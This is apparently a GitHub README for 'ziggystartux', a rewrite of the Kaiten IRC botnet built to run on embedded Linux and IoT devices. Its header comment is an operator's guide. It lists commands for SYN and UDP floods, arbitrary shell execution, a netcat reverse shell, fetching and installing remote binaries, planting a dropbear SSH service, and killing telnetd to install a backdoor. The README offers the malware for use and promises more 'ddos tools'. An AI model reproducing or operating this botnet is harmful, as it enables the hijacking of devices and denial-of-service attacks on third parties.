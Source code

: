 # ziggystartux
A Kaiten rewrite, with much new functionality, and many fixes for the old stuff! Tailored toward embedded Linux devices, because... well, the internet of things of the new frontier!
<pre>
/*******************************************************************************
 *  oooooo  o                      .oPYo.  o             ooooo                 *
 *     d'                         8       8               8                    *
 *    d'  o8 .oPYo. .oPYo. o    o `Yooo. o8P.oPYo. oPYo.  8  o    o `o  o'     *
 *   d'    8 8    8 8    8 8    8     `8  8 .oooo8 8  `'  8  8    8  `bd'      *
 *  d'     8 8    8 8    8 8    8      8  8 8    8 8      8  8    8  d'`b      *
 * dooooo  8 `YooP8 `YooP8 `YooP8 `YooP'  8 `YooP8 8      8  `YooP' o'  `o     *
 *.......:..:....8 :....8 :....8 :.....::..:.....:..:::::..::.....:..:::..     *
 *::::::::::::ooP'.::ooP'.::ooP'.:::::::::::::::::::::::::::::::::::::::::     *
 *::::::::::::...::::...::::...:::::::::::::::::::::::::::::::::::::::::::     *
 ***************************************************************************** *
 * This is a remake of Kaiten, hacked together from various versions scattered *
 * throughout cyberspace. New features include a variety of awesome shell one- *
 * liners, ability to upgrade the bot over http (via gcc or static binary), a  *
 * feature called "HackPkg" that installs binaries without dependencies like   *
 * wget or tftp, and more! Tip: run GETBB <tftp ip> first to get the most out  *
 * of this bot (it will install to /var/bin, which is almost always writable). *
 * The LOCKUP command will kill telnetd and run a backdoor of your choice (for *
 * simplicity we assume you will run it on port 23). This bot is updated often,*
 * so check back frequently for new killer features and ddos tools. In memory  *
 * of David Bowie, because he was an awesome musician and passed during the    *
 * early development of this bot. By ShellzRuS and all the other developers    *
 * that have worked on Kaiten over the last 20 years.                          *
 *                                                                             *
 *        "Hacking on kaiten is a right of passage" --Kod                      *
 *******************************************************************************
 *   This is a IRC based distributed denial of service client.  It connects to *
 * the server specified below and accepts commands via the channel specified.  *
 * The syntax is:                                                              *
 *       !<nick> <command>                                                     *
 * You send this message to the channel that is defined later in this code.    *
 * Where <nick> is the nickname of the client (which can include wildcards)    *
 * and the command is the command that should be sent.  For example, if you    *
 * want to tell all the clients with the nickname starting with N, to send you *
 * the help message, you type in the channel:                                  *
 *       !N* HELP                                                              *
 * That will send you a list of all the commands.  You can also specify an     *
 * astrick alone to make all client do a specific command:                     *
 *       !* SH uname -a                                                        *
 * There are a number of commands that can be sent to the client:              *
 *       PAN <target> <port> <secs>    = A SYN flooder                         *
 *       UDP <target> <port> <secs>    = An UDP flooder                        *
 *       UNKNOWN <target> <secs>       = Another non-spoof udp flooder         *
 *       NICK <nick>                   = Changes the nick of the client        *
 *       SERVER <server>               = Changes servers                       *
 *       GETSPOOFS                     = Gets the current spoofing             *
 *       SPOOFS <subnet>               = Changes spoofing to a subnet          *
 *       DISABLE                       = Disables all packeting from this bot  *
 *       ENABLE                        = Enables all packeting from this bot   *
 *       KILL                          = Kills Ziggy                           *
 *       GET <http address> <save as>  = Downloads a file off the web          *
 *       VERSION                       = Requests version of bot               *
 *       KILLALL                       = Kills all current packeting           *
 *       HELP                          = Displays this                         *
 *       IRC <command>                 = Sends this command to the server      *
 *       SH <command>                  = Executes a command                    *
 *       ISH <command>                 = "Interactive" SH, send to channel     *
 *       BASH <command>                = Run a bash command                    *
 *       SHD <command>                 = Daemonize command                     *
 *       UPDATE <http://server/bot>    = Update this bot                       *
 *       HACKPKG <http://server/bin>   = Install binary (no dependencies)      *
 *       INSTALL <http://server/bin>   = Install binary (via wget)             *
 *       BINUPDATE <http://server/bin> = Update a binary (via wget)            *
 *       SCAN <nmap opts>              = Call an nmap wrapper script           *
 *       GETSSH <http:serverdropbear>  = Install dropbear, run on port 30022   *
 *       RSHELL <ip port>              = Equates to nohup nc ip port           *
 *       GETBB <tftp server>           = Get a proper busybox (via tftp)       *
 *       LOCKUP <http://server/bin>    = Kill telnet, install a backdoor!      *
 *                                                                             *
 * Remember, all these commands must be prefixed by a ! and the nickname that  *
 * you want the command to be sent to (can include wildcards). There are no    *
 * spaces in between the ! and the nickname, and there are no spaces before    *
 * the !                                                                       *
 *                                                                             *
 *                               - contem on efnet                             *
 *******************************************************************************/
</pre>

